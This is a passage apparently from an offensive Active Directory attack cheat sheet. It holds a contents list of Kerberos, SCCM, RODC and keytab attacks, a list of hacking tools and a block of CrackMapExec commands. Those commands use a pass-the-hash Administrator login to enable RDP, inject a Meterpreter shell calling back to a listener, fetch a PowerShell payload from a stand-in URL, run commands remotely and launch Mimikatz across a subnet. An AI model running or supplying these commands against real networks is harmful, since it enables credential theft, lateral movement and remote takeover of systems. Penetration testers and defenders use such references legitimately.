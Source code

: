     - [SpoolService Abuse with Unconstrained Delegation](#spoolservice-abuse-with-unconstrained-delegation)
    - [MS-EFSRPC Abuse with Unconstrained Delegation](#ms---efsrpc-abuse-with-unconstrained-delegation)
  - [Kerberos Constrained Delegation](#kerberos-constrained-delegation)
  - [Kerberos Resource Based Constrained Delegation](#kerberos-resource-based-constrained-delegation)
  - [Kerberos Service for User Extension](#kerberos-service-for-user-extension)
    - [S4U2self - Privilege Escalation](#s4u2self---privilege-escalation)
  - [Kerberos Bronze Bit Attack - CVE-2020-17049](#kerberos-bronze-bit-attack---cve-2020-17049)
  - [PrivExchange attack](#privexchange-attack)
  - [SCCM Deployment](#sccm-deployment)
  - [SCCM Network Access Accounts](#sccm-network-access-accounts)
  - [SCCM Shares](#sccm-shares)
  - [WSUS Deployment](#wsus-deployment)
  - [RODC - Read Only Domain Controller](#rodc---read-only-domain-controller)
    - [RODC Golden Ticket](#rodc-golden-ticket)
    - [RODC Key List Attack](#rodc-key-list-attack)
    - [RODC Computer Object](#rodc-computer-object)
  - [PXE Boot image attack](#pxe-boot-image-attack)
  - [DSRM Credentials](#dsrm-credentials)
  - [DNS Reconnaissance](#dns-reconnaissance)
  - [Linux Active Directory](#linux-active-directory)
    - [CCACHE ticket reuse from /tmp](#ccache-ticket-reuse-from-tmp)
    - [CCACHE ticket reuse from keyring](#ccache-ticket-reuse-from-keyring)
    - [CCACHE ticket reuse from SSSD KCM](#ccache-ticket-reuse-from-sssd-kcm)
    - [CCACHE ticket reuse from keytab](#ccache-ticket-reuse-from-keytab)
    - [Extract accounts from /etc/krb5.keytab](#extract-accounts-from-etckrb5keytab)
  - [References](#references)

## Tools

* [Impacket](https://github.com/CoreSecurity/impacket) or the [Windows version](https://github.com/maaaaz/impacket-examples-windows)
* [Responder](https://github.com/lgandx/Responder)
* [InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Ranger](https://github.com/funkandwagnalls/ranger)
* [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

  ```powershell
  # use the latest release, CME is now a binary packaged will all its dependencies
  root@payload$ wget https://github.com/byt3bl33d3r/CrackMapExec/releases/download/v5.0.1dev/cme-ubuntu-latest.zip

  # execute cme (smb, winrm, mssql, ...)
  root@payload$ cme smb -L
  root@payload$ cme smb -M name_module -o VAR=DATA
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --local-auth
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --shares
  root@payload$ cme smb 192.168.1.100 -u Administrator -H ':5858d47a41e40b40f294b3100bea611f' -d 'DOMAIN' -M invoke_sessiongopher
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M metinject -o LHOST=192.168.1.63 LPORT=4443
  root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -M web_delivery -o URL="https://IP:PORT/posh-payload"
  root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -X 'whoami'
  root@payload$ cme smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M mimikatz
  root@payload$ cme mimikatz --server http --server-port 80
  ```
